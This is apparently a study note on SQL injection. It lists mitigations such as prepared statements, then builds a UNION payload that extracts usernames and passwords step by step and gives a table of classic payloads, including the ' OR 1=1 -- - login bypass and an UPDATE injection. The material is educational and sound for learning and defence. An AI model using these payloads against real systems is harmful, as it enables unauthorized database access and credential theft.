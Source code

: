 # SQL injections (SQLi)

<div class="row row-cols-md-2"><div>

Mitigations

* Use **prepared requests** (statements), they are ensuring that the parameters of your queries are not interpreted as SQL code
* **Input validation** or **escaping user input**: You can filter input, but you CAN'T rely on it, as your filter will _most likely_ be bypassed
* **Do not trust anyone** 📌. SQL injections may be delayed. You may do protect your login queries, but if the provided username is some SQL code, then any other request using the username may interpret it, hence you should secure every request, even if there are not handling data from the user, as they may later. You should use an API for better security.
</div><div>

**How we created this payload:**

**Test `'`**: because the value is inside quotes, we need to close it.

```sql
Select name,desc from product where name LIKE '%'%'
```

The problem, is that now the query won't work, because we have a trailing `%'`. So, we comment out the rest of the query with `' --`.

```sql
Select name,desc from product where name LIKE '%' --%'
```

The code above may not work in some DBMS, because they want a space between the start of a comment, and the comment itself. So, we add "` -`", to ensure that there is a space giving us **`'-- -`**.

```sql
Select name,desc from product where name LIKE '%' -- -%'
```

Between `'` and `-- -`, we can write SQL code, through the syntax of the final query must be valid ✌️. In the example, we used "` UNION Select username,password FROM users`" to merge the results of two queries.
</div></div>

<hr class="sep-both">

## Famous payloads

**Payloads** are the values that you are using to break into the database.

<div class="row row-cols-md-2"><div>

* [sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list) (2.6k ⭐)
* [PayloadsAllTheThings/SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection) (42.3k ⭐)
</div><div>

* [SQLMap](../sqlmap/index.md) (25k ⭐) - automated tool 📌

</div></div>

<table class="table table-bordered table-striped border-dark mt-3">
<thead>
<tr><th>Name</th><th>SQL</th><th>Payload</th></tr>
</thead>
<tbody>

<tr><td>Usual PoC</td><td><code>Select [...] where xxx='here' [...]</code></td><td><code>'</code><br><small>The query will fail as there would be 3 quotes,<br> and that would confirm that an injection is possible.</small></td></tr>

<tr><td>NoPassword</td><td><code>Select [...] where username='here' AND password='here' [...]</code></td><td><code>' OR 1=1 -- -</code><br><small>The query will bypass the check of the password,<br>if it was made in the query.<br>We use 1=1 for maximum compatibility.</small></td></tr>

<tr><td>Input box String</td><td><code>Select [...] where xxx='here' [...]</code></td><td><code>' code -- -</code></td></tr>

<tr><td>Input box Non-String</td><td><code>Select [...] where xxx=here [...]</code></td><td><code>'' code -- -</code></td></tr>

<tr><td>Update</td><td><code>Update [...] set x='here',y=[...]</code></td><td><code>',x=(code),y='</code></td></tr>
</tbody></table>

<div class="row row-cols-md-2 mt-4"><div>

* If there are client-side filters, then intercept the request (ex: Burp)

* If the developer was lazy, the "names" in the form, may be similar, or the name of columns in the database

</div><div>
</div></div>
